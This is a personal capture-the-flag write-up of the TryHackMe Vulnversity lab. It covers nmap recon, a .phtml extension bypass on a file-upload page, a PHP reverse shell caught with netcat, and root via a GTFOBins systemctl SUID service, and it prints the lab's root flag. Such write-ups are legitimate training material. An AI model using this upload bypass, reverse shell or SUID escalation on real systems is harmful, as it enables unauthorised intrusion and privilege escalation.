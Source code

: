#suid

### Vulnversity - Tryhackme - Getting Root flag only

- Initial Recon
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 10.10.160.7                           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 05:43 EDT
Nmap scan report for 10.10.160.7
Host is up (0.27s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/18%OT=21%CT=1%CU=42338%PV=Y%DS=2%DC=T%G=Y%TM=64DF3D9
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M509ST11NW6%O2=M509ST11NW6%O
OS:3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-18T09:44:47
|_  start_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-08-18T05:44:46-04:00

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   288.75 ms 10.18.0.1
2   292.44 ms 10.10.160.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.83 seconds

~~~

- Gobuster on port 3333 - Found /internal directory have file upload page. 
- Upload shell.php file - Unsuccessful result. 
- Use burpsuite #burpsuite to find out which php version is accepted - Intercept the traffic - forward to the intruder - in position clear $ and add $ on upload file extension - in payload seetings remove current settings and add 'php3, phtml, php4, php5, php6' - in setting, Grep - Match add 'Extension not allowed' obtained from the repeater, in redirection select 'always' - Start the attack. 
![[Pasted image 20230818185424.png]]
- Phtml extension can be uploaded, change shell.php extension to phtml, upload it, check on /upload page, start listener and open uploaded file. Reverse shell obtained. If connection get lost then disable firewall with 'sudo ufw disable' #firewall 
~~~bash
──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.4.132] from (UNKNOWN) [10.10.160.7] 33220
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:43:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

- Find the SUID permission files
~~~bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
~~~

- Find out systemctl have the SUID privilege escalation in GTFObins. Copied code and change it as per needed. 

```
# Before 
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
```
# After
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

- Run command one by one, obtained root. 
~~~bash
$ sudo install -m =xs $(which systemctl) .
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
$ 
~~~

- Rooted Machine